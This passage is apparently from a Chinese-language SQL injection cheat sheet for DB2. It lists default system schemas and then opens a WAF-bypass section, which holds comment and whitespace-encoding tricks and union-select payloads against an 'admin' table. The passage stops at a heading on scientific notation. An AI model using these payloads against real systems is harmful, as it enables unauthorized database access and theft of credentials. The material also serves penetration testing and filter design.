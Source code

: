 ### Default System Database

- SYSIBM
- SYSCAT
- SYSSTAT
- SYSPUBLIC
- SYSIBMADM
- SYSTOOLs





# Bypass



把每个SQL关键字两侧可插入的点称之为“位”，如下图：

![](http://image.xpshuai.cn/img/image-20220119124547715.png)



## 位置一

(1)注释符

```bash
/**/ 
%23 
--+ 
/*!50000union*/

# 
id=2/**/union select 1,user,3 from admin
```



(2)空白符

```
%09
%0a
%0b
%0c
%0d
%20
%a0

# 
id= 1 %0a union select 1,user,3 from admin
```



(3)科学计算法
